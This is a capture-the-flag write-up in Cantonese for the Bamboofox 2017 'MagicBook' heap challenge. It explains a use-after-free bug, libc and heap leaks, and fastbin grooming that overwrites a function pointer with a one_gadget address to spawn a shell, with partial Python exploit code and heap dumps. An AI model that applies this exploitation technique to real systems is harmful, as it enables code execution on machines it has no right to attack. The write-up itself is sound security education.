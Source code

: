 # Bamboofox 2017 MagicBook

呢條係好簡單嘅heap overflow題,本身就應該solve到既(可惜揾錯one gadget RCE address),係到要推介下hitcon david 大大嘅 [One_gadget](https://github.com/david942j/one_gadget) ,有佢就唔洗係IDA Pro 揾(錯) one gadget RCE 

Menu:
```

oh my god!!!!
You are just a normal human.......
You can only use at most five kinds of magic (vanished).

====== Magic Book ======
  1. Add a chant.

  2. Delete a chant.

  3. spell it !!!

========================
Choose a feature :

```

有得add, delete同 spell.

Spell就係用黎call print chant 嘅 option,同時print chant本身都係chant object嘅一枝function pointer(好重要)

每一次‵call add, 首先會malloc 一個 0x10嘅chunk 放function pointer 同content pointer, 再malloc 一個由用家input size 嘅chunk 去放input content

heap view :
```
0x603010:	0x0000000000400826	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021
0x603030:	0x4141414141414141	0x000000000000000a
0x603040:	0x0000000000000000	0x0000000000020fc1
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000

```

而佢又有另一個table store heap address

```
0x6020a0 <list>:	0x0000000000603010	0x0000000000000000
0x6020b0 <list+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <list+32>:	0x0000000000000000	0x0000000000000000

```
個bug就係呢到,free完之後上面個table,係相應位置冇set 0,引致use after free

可以開始exploit 

不過由於無edit function 所以我地唔可以用unlink->GOT Hijacking 

普通fastbin attack 都唔得,因為add 會先malloc function pointer再malloc content

由於我地控制唔到function pointer會去乜位所以就會crash 

不過點都好我地都要leak libc, heapbase (呢到無用)

```python
print "[+] Leaking heapbase : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
add(3,128,"AAAA")
free(0)
free(2)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
heapbase=int(leakk,16)-0x180
print "heapbase :"+hex(heapbase)
add(2,128,"DDDDDDD")
free(3)
free(2)
free(1)
free(0)

print "[+] Leaking Libc : "
add(0,128,"AAAA")
add(1,128,"BBBB")
add(2,128,"CCCC")
free(0)
add(0,128,"DDDDDDD")
leakk=leak("DDDDDDD",0)
```

只要利用smallbin free完之後嘅fd bk pointer再配合puts leak libc heapbase 出黎(可以參考[Mental Snapshot - _int_free and unlink](http://uaf.io/exploitation/misc/2016/09/11/_int_free-Mental-Snapshot.html))  

Exploit :

首先我地要malloc 一個Fastbin with content <0x20 嘅chunk 加兩個好大嘅chunk ,1個 padding (add(3,128,"X"))
)

係malloc 細chunk(add(0,30,"X"))嘅時候,由於function pointer 同content pointer 屬於0x20 bin ,就會拎返屬於以前table[0] table[1] function pointer 嘅address

```python
add(0,30,"X")
add(1,800,"T"*300)
add(2,500,"B"*300)
add(3,128,"X")
```
再用呢個次序free左佢
 
咁下一次malloc嘅function pointer位置會拎到上面細chunk content位置(fastbin LIFO features)

Content 會放左係之後,而且會覆蓋到以前嘅chunk(2 and 3)

```python
free(3)
free(2)
free(1)
free(0)
```
再一個大chunk (size=900)我地會完整覆蓋到以前嘅chunk3
 
係chunk 3 function pointer 位置放one gadget
再去menu spell->3 get shell

```python
known_heap=heapbase+0x190
rop=p64(pop_rax_ret)+p64(system)

add(1,900,"Q"*(96+48)+p64(one_gadget))

```


